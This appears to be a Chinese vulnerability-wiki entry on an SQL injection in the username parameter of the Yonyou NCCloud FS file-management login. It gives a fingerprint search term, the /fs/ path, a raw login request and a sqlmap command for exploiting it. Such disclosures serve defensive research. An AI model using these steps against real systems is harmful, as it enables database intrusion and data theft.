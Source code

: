 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

<a-checkbox checked>用友 NCCloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"NCCloud"</a-checkbox></br>

## 漏洞描述

登录页面如下



![img](../../../.vuepress/public/img/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



![img](../../../.vuepress/public/img/yongyou-14.png)



登录请求包如下



```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![img](../../../.vuepress/public/img/yongyou-15.png)